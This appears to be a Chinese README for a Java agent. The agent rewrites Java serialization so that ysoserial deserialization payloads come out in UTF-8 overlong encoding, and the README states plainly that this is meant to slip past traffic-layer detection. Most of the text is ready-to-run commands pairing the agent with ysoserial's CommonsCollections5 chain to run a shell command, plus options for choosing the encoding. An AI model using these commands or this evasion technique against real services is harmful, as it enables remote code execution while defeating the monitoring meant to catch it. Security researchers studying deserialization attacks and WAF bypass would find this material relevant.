


# utf8 overlong agent

使用 agent 替换序列化中的`writeUTF`和`writeUTFBody`函数，从而实现在反序列化时生成utf8 overlong数据，绕过流量层检测。


# 用法

在生成反序列化payload工具启动时添加 javaagent 参数即可

```bash
java -javaagent:/path/to/utf8-overlong-agent-1.0-SNAPSHOT-jar-with-dependencies.jar -jar ysoserial-0.0.5-all.jar CommonsCollections5 "touch /tmp/success"
```





可以使用base64编码一下，然后拷贝出来使用




默认采用随机混合2、3字节的utf8 overlong编码，每次生成的payload都不一样


若想固定使用2或3字节utf8 overlong，指定agent参数即可：

```bash
# 2 byte
java -javaagent:/path/to/utf8-overlong-agent-1.0-SNAPSHOT-jar-with-dependencies.jar=2 -jar ysoserial-0.0.5-all.jar CommonsCollections5 "touch /tmp/success"

# 3 byte
java -javaagent:/path/to/utf8-overlong-agent-1.0-SNAPSHOT-jar-with-dependencies.jar=3 -jar ysoserial-0.0.5-all.jar CommonsCollections5 "touch /tmp/success"
```


# 参考

https://en.wikipedia.org/wiki/UTF-8

https://www.leavesongs.com/PENETRATION/utf-8-overlong-encoding.html

https://github.com/Whoopsunix/utf-8-overlong-encoding

https://t.zsxq.com/ToFaL

https://t.zsxq.com/Yg2cc
